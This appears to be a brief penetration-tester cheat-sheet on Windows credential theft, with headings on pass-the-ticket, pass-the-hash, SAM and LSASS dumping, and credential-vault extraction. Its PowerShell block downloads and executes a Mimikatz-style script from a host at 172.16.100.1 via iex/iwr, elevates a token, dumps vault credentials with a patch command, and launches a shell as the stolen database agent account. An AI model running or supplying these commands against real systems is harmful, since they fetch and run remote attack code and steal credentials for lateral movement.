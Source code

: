 # eKeys > [[Pass the Ticket . OverPass the Hash]]


# SamDump (Local System)> [[Pass the Hash]]


# LSASS Dump (Domain Cached) 
- eKeys
- NTLM Hash > Crack or Pass

# Cred Vault > Scheduler Task 

Database agent account credentials extracted from credential vault
```powershell
PS > iex (iwr http://172.16.100.1/Invoke-Mimi.ps1 -UseBasicParsing)

PS > Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'

PS > runas /netonly /user:tech\databaseagent powershell.exe
```
